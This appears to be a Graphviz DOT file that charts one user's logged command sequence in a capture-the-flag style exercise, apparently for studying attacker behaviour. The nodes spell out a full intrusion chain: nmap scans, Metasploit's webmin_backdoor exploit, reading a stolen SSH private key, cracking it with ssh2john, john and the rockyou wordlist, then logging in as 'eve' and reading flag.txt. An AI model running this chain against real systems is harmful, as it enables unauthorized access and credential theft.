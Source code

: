 // creating graph for user: 92
digraph {
	node [shape=box]
	0 [label="nmap 172.181.1.5 -p- A0 A1 "]
	1 [label="nmap 172.181.1.5 -p- -Pn A0 A1 "]
	2 [label="nmap 172.18.1.5 -p- M0 "]
	3 [label="nmap 172.18.1.5 -p- -A A1 "]
	4 [label="msfconsole M2 "]
	5 [label="search webmin M3 "]
	6 [label="use exploit/unix/webapp/webmin_backdoor M8 "]
	7 [label="show options M5 "]
	9 [label="set LHOST 10.1.135.83 M6 "]
	36 [label="nmap 172.18.1.5/12 -p- A1 "]
	42 [label="nmap 172.18.1.5/24 -p- A1 "]
	45 [label="nmap 172.18.1.2 A1 "]
	51 [label="nmap 81.2.195.254 A1 "]
	54 [label="nmap 10.1.18.22 A1 "]
	55 [label="nmap 10.1.17.4 A1 "]
	56 [label="cd .ssh A16 "]
	57 [label="ls A10 "]
	58 [label="cat id_rsa M12 "]
	59 [label="john id_rsa A14 "]
	60 [label="ssh2john A14 A16 "]
	61 [label="locate ssh2john A1 A9 A10 A11 A14 A16 A17 "]
	63 [label="python ssh2john.py M13 "]
	64 [label="python ssh2john.py .ssh/id_rsa A14 A16 "]
	65 [label="python ssh2john.py .ssh/id_rsa > eve A14 A16 "]
	66 [label="john eve A14 "]
	67 [label="locate rockyou A1 A9 A10 A11 A17 "]
	68 [label="john eve --wordlist=/usr/share/wordlists/rockyou.txt M14 "]
	69 [label="ls A10 "]
	70 [label="ssh eve@10.1.17.4 M16 "]
	71 [label="chmod 600 .ssh/id_rsa M15 "]
	73 [label="ls -la A10 "]
	75 [label="ls A10 "]
	76 [label="cat flag.txt M17 "]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 9 [constraint=false]
	9 -> 36 [constraint=false]
	36 -> 42 [constraint=false]
	42 -> 45 [constraint=false]
	45 -> 51 [constraint=false]
	51 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 73 [constraint=false]
	73 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	rankdir=LR
}
